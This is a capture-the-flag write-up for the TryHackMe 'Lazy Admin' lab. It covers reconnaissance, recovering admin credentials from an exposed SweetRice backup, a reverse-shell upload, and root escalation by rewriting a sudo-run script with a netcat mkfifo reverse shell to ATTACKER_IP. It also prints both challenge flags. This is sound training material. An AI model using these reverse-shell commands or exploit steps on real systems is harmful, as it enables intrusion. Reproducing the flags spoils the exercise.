


## Index

1. [Setup](#setup)
2. [Reconnaissance](#reconnaissance)
3. [Gaining Access](#gaining-access)
4. [Privilege Escalation](#privilege-escalation)
5. [Conclusion](#conclusion)

## Setup 

We first need to connect to the tryhackme VPN server. You can get more information regarding this by visiting the [Access](https://tryhackme.com/access) page.

I'll be using openvpn to connect to the server. Here's the command:

```
$ sudo openvpn --config NovusEdge.ovpn
```

## Reconnaissance

Performing some basic `nmap` scans gives us the following information:
```shell-session
$ sudo nmap -sS -vv -oN nmap_scan.txt TARGET_IP
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63


$ sudo nmap -sV -vv -oN nmap_service_scan.txt TARGET_IP
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


$ sudo nmap -sC --top-ports 2000 --script=vuln -vv -oN nmap_vuln_scan.txt TARGET_IP
Pre-scan script results:
| broadcast-avahi-dos: 
|   Discovered hosts:
|     224.0.0.251
|   After NULL UDP avahi packet DoS (CVE-2011-1002).
|   Hosts that seem down (vulnerable):
|_    224.0.0.251
Nmap scan report for TARGET_IP
Host is up, received echo-reply ttl 63 (0.24s latency).
Scanned at 2023-02-19 16:12:04 IST for 323s
Not shown: 1998 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
| http-slowloris-check: 
|   VULNERABLE:
|   Slowloris DOS attack
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2007-6750
|       Slowloris tries to keep many connections to the target web server open and hold
|       them open as long as possible.  It accomplishes this by opening connections to
|       the target web server and sending a partial request. By doing so, it starves
|       the http server's resources causing Denial Of Service.
|       
|     Disclosure date: 2009-09-17
|     References:
|       http://ha.ckers.org/slowloris/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-wordpress-users: [Error] Wordpress installation was not found. We couldn't find wp-login.php
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-litespeed-sourcecode-download: Request with null byte did not work. This web server might not be vulnerable
| http-enum: 
|_  /content/: Potentially interesting folder
|_http-jsonp-detection: Couldn't find any JSONP endpoints.
|_http-dombased-xss: Couldn't find any DOM based XSS.
```

The machine is quite simple in terms of the services running on it, there's a web server and a ssh service running that we can make use of for gaining access and so on. Requesting the web-page for the server running on port 80 shows the default page for _Apache2 Ubuntu_. As dictated by the `vuln` script scan by `nmap`, there's a `/content/` directory that may hold something for us to use...


Well, sure enough, that _is_ information that interests us. The web page tells us that the web server makes use of `SweetRice`. A quick search using exploitDB shows several vulnerabilities we can use to exploit SweetRice running on the server. The one I'll be using will be the [Backup Disclosure vulnerability in SweetRice 1.5.1](https://www.exploit-db.com/exploits/40718). Visiting the `/content/inc/mysql_backup/` directory gives us access to the SQL backups, which can be downloaded simply by using something like `wget` or just clicking on them. When we view the contents of the `mysql_backup` folder, there's just one file: `mysql_bakup_20191129023059-1.5.1.sql` which can be dowloaded like so:
```shell-session
$ wget http://TARGET_IP/content/inc/mysql_backup/mysql_bakup_20191129023059-1.5.1.sql
```

Checking the contents of the sql bakcup file provides us the admin username as well as a hashed password to crack:
```txt
ENGINE=MyISAM AUTO_INCREMENT=4 DEFAULT CHARSET=utf8;',
  14 => 'INSERT INTO `%--%_options` VALUES(\'1\',\'global_setting\',\'a:17:{s:4:\\"name\\";s:25:\\"Lazy Admin&#039;s Website\\";s:6:\\"author\\";s:10:\\"Lazy Admin\\";s:5:\\"title\\";s:0:\\"\\";s:8:\\"keywords\\";s:8:\\"Keywords\\";s:11:\\"description\\";s:11:\\"Description\\";s:5:

  \\"admin\\";s:7:\\"manager\\";s:
  ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^ ------------------------------- Username for admin account!
  6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\"
    ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^ ----- Password for the admin account!

  ;s:5:\\"close\\";i:1;s:9:\\"close_tip\\";s:454:\\"<p>Welcome to SweetRice - Thank your for install SweetRice as your website management system.</p><h1>This site is building now , please come late.</h1><p>If you are the webmaster,please go to Dashboard -> General -> Website setting </p><p>and uncheck the checkbox \\"Site close\\" to open your website.</p><p>More help at <a href=\\"http://www.basic-cms.org/docs/5-things-need-to-be-done-when-SweetRice-installed/\\">Tip for Basic CMS SweetRice installed</a></p>\\";s:5:\\"cache\\";i:0;s:13:\\"cache_expired\\";i:0;s:10:\\"user_track\\";i:0;s:11:\\"url_rewrite\\";i:0;s:4:\\"logo\\";s:0:\\"\\";s:5:\\"theme\\";s:0:\\"\\";s:4:\\"lang\\";s:9:\\"en-us.php\\";s:11:\\"admin_email\\";N;}\',\'1575023409\');',
```

Cracking this hash provides us with the password we require:



## Gaining Access

After some research and experimentation, we find that the `/as/` page/directory gives us a place to put these credentials to use:


The credentials to use are: `manager: Password123`. Once logged in, we're taken to a dashboard. We can now make use of one of the exploits we found when searching on ExploitDB. I'll be making use of the [CSRF Vulnerability in SweetRice 1.5.1](https://www.exploit-db.com/exploits/40700). Uploading our reverse shell code as an ad and then requesting the URL: `10.10.42.5/content/inc/ads/payload.php`, we obtain a reverse shell!
```shell-session
$ nc -nvlp 4444
listening on [any] 4444 ...
connect to [ATTACKER_IP] from (UNKNOWN) [10.10.42.5] 44012
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 19:36:10 up 11 min,  0 users,  load average: 0.04, 0.19, 0.20
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (1057): Inappropriate ioctl for device
bash: no job control in this shell
www-data@THM-Chal:/$ whoami
www-data

www-data@THM-Chal:/$ cd /home
www-data@THM-Chal:/home$ ls
itguy
www-data@THM-Chal:/home$ cd itguy
www-data@THM-Chal:/home/itguy$ ls
Desktop
Documents
Downloads
Music
Pictures
Public
Templates
Videos
backup.pl
examples.desktop
mysql_login.txt
user.txt

www-data@THM-Chal:/home/itguy$ cat user.txt
THM{63e5bce9271952aad1113b6f1ac28a07}

```

And just like that, we've obtained the user flag!
> What is the user flag?
> 
> Answer: `THM{63e5bce9271952aad1113b6f1ac28a07}`

## Privilege Escalation

Now that we have a foothold, we can now go ahead and work on obtaining the root flag. Now, looking at the rest of the files in `/home/itguy` we find 2 interesting ones:
- `mysql_login.txt`
- `backup.pl`

The contents of these are as follows:
```shell-session
www-data@THM-Chal:/home/itguy$ cat mysql_login.txt
rice:randompass

www-data@THM-Chal:/home/itguy$ cat backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```

Interesting... let's inspect the contents of the `/etc/copy.sh` script.  
```shell-session
www-data@THM-Chal:/home/itguy$ cat /etc/copy.sh

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
```

Hmm... it seems like the `/etc/copy.sh` file contains a reverse shell of a sort. Maybe we can leverage that to gain root privileges? Let's try simply replacing the IP `192.168.0.190` with our IP and run a netcat listener at port 5554:

```shell-session
www-data@THM-Chal:/$ cd etc
www-data@THM-Chal:/etc$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ATTACKER_IP 5554 >/tmp/f" > copy.sh

www-data@THM-Chal:/home/itguy$ python -c 'import pty;pty.spawn("/bin/bash")';                             
www-data@THM-Chal:/home/itguy$ cd /
www-data@THM-Chal:/$ sudo perl /home/itguy/backup.pl

# On our netcat listener:
$ nc -nvlp 5554
listening on [any] 5554 ...
connect to [ATTACKER_IP] from (UNKNOWN) [10.10.42.5] 49252
# whoami
root
# ls
root.txt
# cat root.txt
THM{6637f41d0177b6f37cb20d775124699f}
```

We have the root flag!
> What is the root flag?
> 
> Answer: `THM{6637f41d0177b6f37cb20d775124699f}`

## Conclusion

If this writeup helps, please consider following me on github (https://github.com/NovusEdge) and/or dropping a star on the repository: https://github.com/NovusEdge/thm-writeups

---

- Author: Aliasgar Khimani
- Room: [Lazy Admin](https://tryhackme.com/room/lazyadmin)
